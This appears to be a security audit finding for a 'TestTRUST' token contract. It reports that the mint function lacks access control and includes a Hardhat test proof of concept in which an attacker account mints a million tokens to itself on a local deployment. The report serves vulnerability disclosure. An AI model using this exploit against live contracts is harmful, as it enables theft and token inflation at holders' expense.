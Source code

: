 #### Description:
The `TestTRUST::mint` function allows anyone to mint tokens to any address without any access control mechanism. This creates a critical vulnerability where malicious actors can exploit this function to mint unlimited tokens, potentially destabilizing the system and devaluing the token.


#### Impact:
1. **Unlimited Token Minting**:
   - Any account can mint arbitrary amounts of tokens for themselves or others.
   - This can lead to token inflation, loss of trust, and devaluation of the token.

2. **Economic and Reputation Risk**:
   - Token holders and investors lose confidence due to unrestricted minting.
   - Malicious users could flood the market with excess tokens, leading to a financial loss.

3. **Security Risks**:
   - Potentially allows attackers to disrupt tokenomics and exploit other smart contracts interacting with the token.

#### Proof of Concept
```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("tTRUST Access Control Vulnerability PoC", function () {
    let owner, attacker, testTrust;
    beforeEach(async function main() {
        [owner, attacker] = await ethers.getSigners();
        console.log(`Owner Address: ${owner.address}`);
        console.log(`Attacker Address: ${attacker.address}`);
        
        // Deploy the TestTRUST contract
        const TestTRUST = await ethers.getContractFactory("TestTRUST");
        testTrust = await TestTRUST.deploy(owner.address);
        await testTrust.waitForDeployment();
      
        console.log(`TestTRUST deployed at: ${await testTrust.getAddress()}`);
      
    });
    
    it("Should allow attacker to mint tokens from any account due to missing access control in mint", async function () {
          // Check initial balance of the attacker
          let attackerBalance = await testTrust.balanceOf(attacker.address);
          console.log(`Attacker's initial balance: ${ethers.formatEther(attackerBalance)} tTRUST`);
        
          // Exploit: Attacker mints tokens to themselves
          const mintAmount = ethers.parseEther("1000000");
          const tx = await testTrust.connect(attacker).mint(attacker.address, mintAmount);
          await tx.wait();
        
          // Check balance after exploit
          attackerBalance = await testTrust.balanceOf(attacker.address);
          console.log(`Attacker's balance after exploit: ${ethers.formatEther(attackerBalance)} tTRUST`);

      });
})

```
